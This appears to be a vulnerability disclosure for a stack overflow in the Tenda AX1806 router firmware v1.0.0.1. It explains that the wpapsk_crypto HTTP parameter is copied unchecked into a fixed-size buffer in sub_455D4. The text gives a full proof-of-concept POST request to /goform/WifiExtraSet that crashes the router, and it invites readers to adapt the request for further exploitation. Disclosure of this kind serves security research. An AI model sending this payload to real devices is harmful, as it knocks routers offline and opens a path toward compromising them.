 # TENDA AX1806 v1.0.0.1 stack overflow Vulnerability in sub_455D4

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3422.html
- Affected firmware version：v1.0.0.1

<img src="img/0.jpg" style="zoom:50%;" />

## Vulnerability Description

There is a stack overflow vulnerability in function `sub_455D4`, called by function `fromSetWirelessRepeat`. The `v9` variable can be obtained from the http request parameter `wpapsk_crypto` without checking its size. And the `v9`, if not equal to `tkip&aes`, will be copied to the fixed size array `v16`, which can easily cause a stack overflow.

<img src="img/3.jpg" style="zoom:50%;" />

<img src="img/4.jpg" style="zoom:50%;" />

<img src="img/5.jpg" style="zoom:50%;" />

## POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.2.1
Cookie: password=a3b0b5bfc81588a7fb32b4278d53178almq5gk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 351

wifi_chkHz=0&wl_mode=wisp&security=wpapsk&wpapsk_type=wpa&wpapsk_key=aaaaaaaaaaa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

<img src="img/6.jpg" style="zoom:50%;" />

The router will crash after sending the poc, and you may modify this for further exploiting.